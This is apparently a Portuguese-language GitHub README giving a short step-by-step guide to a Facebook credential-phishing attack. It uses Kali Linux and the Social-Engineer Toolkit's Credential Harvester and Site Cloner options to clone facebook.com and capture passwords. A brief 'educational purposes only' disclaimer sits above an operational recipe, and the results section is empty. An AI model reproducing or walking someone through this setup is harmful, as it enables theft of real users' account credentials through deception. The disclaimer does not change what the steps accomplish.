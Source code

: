# Phishing para Captura de Senhas do Facebook - Kali Linux

Este repositório fornece um guia básico para configurar um ataque de phishing com o objetivo de capturar credenciais do Facebook. **Este material é apenas para fins educacionais e deve ser usado de forma ética e responsável.**

## Ferramentas Necessárias
- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

## Configuração do Phishing no Kali Linux
```bash
# Obtenha acesso root
sudo su

# Inicie o Social-Engineer Toolkit
setoolkit

# Escolha o tipo de ataque:
# Social-Engineering Attacks

# Escolha o vetor de ataque:
# Web Site Attack Vectors

# Escolha o método de ataque:
# Credential Harvester Attack Method

# Configure o ataque:
# Escolha Site Cloner para clonar um site legítimo.

# Obtenha o endereço da máquina:
ifconfig

# Insira a URL para clonar:
# Exemplo: http://www.facebook.com
```

## Resultado


